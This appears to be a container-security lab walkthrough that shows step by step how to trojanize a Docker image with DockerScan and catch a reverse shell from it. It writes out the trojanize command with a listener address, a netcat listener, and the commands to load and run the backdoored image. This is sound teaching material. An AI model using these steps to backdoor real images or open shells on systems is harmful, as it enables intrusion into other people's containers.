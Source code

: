 # **Trojanized Docker Images - DockerScan**

---

> #### A docker image can be trojanized with a tool called `DockerScan`. When a trojanized container is launched, the attacker can get a `reverse-shell` on-to the container

### **Lab Image : `Containers`**

---

#### Step 1:

* Navigate to the `Trojanized Docker Images` directory

```commandline
cd /root/container-training/Container/Trojanized-Docker-Image/
```

* Pull and save the docker image that is to be trojanized

```commandline
docker pull abhaybhargav/vul_flask && docker save abhaybhargav/vul_flask:latest -o abhaybhargav-vul_flask
```

---

#### Step 2:


* Fetch the IP of the provisioned server

```commandline
serverip
```

* Trojanize the saved docker to create a `.tar` file

> **EXAMPLE**: `dockerscan image modify trojanize abhaybhargav-vul_flask -l 104.1.1.1 -p 1337 -o abhaybhargav-vul_flask-trojanized`

```commandline
dockerscan image modify trojanize abhaybhargav-vul_flask -l $(serverip) -p 1337 -o abhaybhargav-vul_flask-trojanized
```

---

#### Step 3:

* Once the command on **Step 2** has been run, a `netcat` command is returned. Run the command in another tab or use `tmux` to split the terminal.

> **EXAMPLE**: `nc -v -k -l 104.1.1.1 1337`

```commandline
nc -v -k -l $(serverip) 1337
```

* Load the trojanized `.tar` docker file

```commandline
docker load -i abhaybhargav-vul_flask-trojanized.tar
```

---

#### Step 4:

* Confirm that the trojanized image has been loaded

```commandline
docker images
```

* When the trojanized docker is run, the listener should have reverse-shell access to the container

```commandline
docker run -d -p 5000:5000 abhaybhargav/vul_flask
```

---

#### *Teardown*:

* Stop/Close the `reverse-shell` tab

* Stop all containers

```commandline
clean-docker
```

---

### Reading Material/References:

* https://github.com/cr0hn/dockerscan
